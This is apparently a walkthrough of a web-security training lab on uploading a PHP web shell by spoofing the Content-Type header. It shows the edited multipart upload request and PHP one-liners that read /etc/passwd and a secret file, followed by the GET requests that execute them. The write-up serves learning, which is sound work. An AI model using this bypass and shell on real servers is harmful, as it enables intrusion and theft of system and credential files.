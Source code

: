 # Web shell upload via Content-Type restriction bypass

## This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

upload an image
and try to upload a php extension file it will not upload
so go to burpsuite
go to image upload url request send to repeater

POST /my-account/avatar HTTP/1.1
delete image data

change file name to test.php
meme.jpg to test.php
and write a php code for retrive passwd file

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="user

it will succesfully uploaded

### step2

GET /files/avatars/meme.jpg HTTP/1.1
change to test .php
and send request

GET /files/avatars/test.php HTTP/1.1

you will get all passwd file

now do **\_\_\_\_**

### step 1 for secret code

<?php echo file_get_contents('/home/carlos/secret'); ?>

![screenshot](./images/lab2_change_file_name_and_php_code.png)

and ### step2
send get request for test.php file

![screenshot](./images/lab2_get_request_test_php_file.png)
